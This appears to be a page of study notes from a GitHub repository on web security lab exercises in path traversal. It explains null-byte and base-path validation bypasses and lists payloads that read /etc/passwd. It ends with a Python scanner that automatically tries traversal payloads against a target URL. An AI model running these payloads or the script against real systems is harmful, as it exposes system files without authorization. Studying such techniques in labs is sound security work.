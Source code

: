   - **Vulnerability:** Path Traversal – Null Byte Bypass
    - **Description:** The application checks whether the requested file ends with a valid image extension (e.g., `.jpg`) but does so after applying string functions that stop at null bytes (`%00`). By appending a null byte followed by a valid extension, an attacker can bypass this validation and access arbitrary files.
    - **Common Payloads:**
      - `../../../etc/passwd%00.jpg`
      - `../../../etc/passwd\x00.jpg`
    - **Relevant Labs:**
      - *File path traversal, validation of file extension with null byte bypass*

  - **Vulnerability:** Path Traversal – Base Path Validation Bypass
    - **Description:** The application attempts to validate that requested files are located under a specific base directory (e.g., `/var/www/images/`). However, it fails to account for traversal sequences that start within that base path and move upward. An attacker can bypass the base path check using a crafted path that begins with the base directory but escapes it with `../` sequences.
    - **Common Payloads:**
      - `/var/www/images/../../../etc/passwd`
      - `/var/www/images/../../../../../../etc/passwd`
    - **Relevant Labs:**
      - *File path traversal, validation of start of path*

  - **Tool:** `psptchecker.py`
    - **Purpose:** A Python script designed to automate testing for various path traversal scenarios across multiple bypass techniques covered in the labs.
    - **Script:**
      ```python
      import requests
      import sys

      payloads = [
          "../../../../../../../../../etc/passwd",
          "/etc/passwd",
          "../../../etc/passwd",
          "....\/....\/....\/etc/passwd",
          "....//....//....//etc/passwd",
          "%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd",
          "%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd",
          "/etc/passwd%00.jpg",
          "../../../etc/passwd%00.jpg",
          "/etc/passwd\x00.jpg",
          "../../../etc/passwd\x00.jpg",
          "/var/www/images/../../../etc/passwd"
      ]

      if len(sys.argv) != 2:
          print("Usage: python script.py <URL>")
          sys.exit(1)

      url = sys.argv[1].rstrip('/')
      search_string = "root:x:0:0:root:/root:/bin/bash"

      for payload in payloads:
          target_url = f"{url}/image?filename={payload}"
          try:
              response = requests.get(target_url, timeout=5)
              if search_string in response.text:
                  print("\n[+] LFI Found!")
                  print(f"Payload: {payload}")
                  print("Response:")
                  print(response.text)
                  break
              else:
                  print(f"[-] No LFI with: {payload}")
          except requests.exceptions.RequestException as e:
              print(f"[!] Error requesting {target_url}: {e}")